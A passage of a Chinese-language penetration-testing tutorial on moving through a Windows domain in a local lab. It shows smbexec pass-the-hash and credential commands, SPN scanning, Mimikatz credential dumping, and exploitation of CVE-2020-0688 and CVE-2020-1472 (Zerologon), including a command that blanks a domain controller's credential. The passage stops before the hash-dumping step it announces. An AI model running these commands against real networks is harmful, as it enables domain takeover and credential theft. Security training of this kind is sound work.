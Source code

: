 python smbexec.py -hashes :哈希密码 域名/账号@ip  
  
或者：python smbexec.py   
域名/账号:明文密码@ip，  
  
例如  
python smbexec.py sqlserver/administrator:123456@192.168.3.3  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXV2Ta9lS1kTF9z0wfajNWcST5sRVIuibK64icgRJ4ic0fARs34B4kmbb5mA/640?wx_fmt=png&from=appmsg "")  
  
5.3漏洞横向（本地内网靶机演示）  
  
**5.3.1 CVE-2020-0688**  
  
**前提条件：开启了exchang服务**  
  
通过spn扫描可知开启了  
exchang服务  
，  
0day.org为域名  
  
命令：powershell setspn -T 0day.org -q   
/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2icT3VDcN7KI0aYtLeYoeNw70tdqLASxUPY98ar8rU8gOSeHc9EbDcOQ/640?wx_fmt=png&from=appmsg "")  
  
ping计算机名获取ip地址  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2ADlgv8ShMkJdt8ysnKviaUmpOv3XxldFibm2ibD3q6jq16iauKzGR0bYgA/640?wx_fmt=png&from=appmsg "")  
  
micle@rootkit.org，域用户@域名，密码通过  
Mimikatz抓取  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2icNMm4lxUFNDicWKricjn6myHWuwZrn9H7b6GHqvhre8AMwNwHKw1hbibA/640?wx_fmt=png&from=appmsg "")  
  
**5.3.2 CVE-2020-1472**  
  
影响版本：**WIN2008-2019**  
  
，只能打域  
  
获取计算机名，net group "domain controllers" /domain  
  
或者net time /domain  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk29fprJEjEyibClQRn4uBcCOFHbicxlhqjG6UkyxF9zd4bosg9iaPZdKndQ/640?wx_fmt=png&from=appmsg "")  
  
连接DC清空凭证：  
  
OWA2010CN-GOD为域控地址，  
  
3.21为域控ip  
  
python cve-2020-1472-exploit.py OWA2010CN-GOD 192.168.3.21  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2uyicEJnkKqOlaXlKxvYWnQt9QjM4IiczDjhm9d8ayibB7tPqrycPvKsXw/640?wx_fmt=png&from=appmsg "")  
  
获取域内HASH(使用空密码连接):  
  